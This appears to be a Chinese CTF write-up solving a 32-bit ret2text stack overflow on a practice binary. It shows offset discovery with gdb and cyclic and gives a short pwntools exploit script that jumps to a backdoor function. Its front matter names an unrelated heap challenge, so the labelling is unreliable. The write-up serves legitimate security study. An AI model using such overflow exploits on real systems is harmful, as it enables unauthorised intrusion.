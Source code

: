 ```yaml
---
title: '[LitCTF2024]heap-2.23'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```


![image-20240108202313442](../assets/img/old_imags/image-20240108202313442.png)

![image-20240108202321247](image-20240108202321247.png)

- 缓存区长度调试
- `32`位下的`ret2text`
- `cyclic`的使用

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  ![image-20240108202713661](/image-20240108202713661.png)

  ![image-20240108202748090](/image-20240108202748090.png)

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

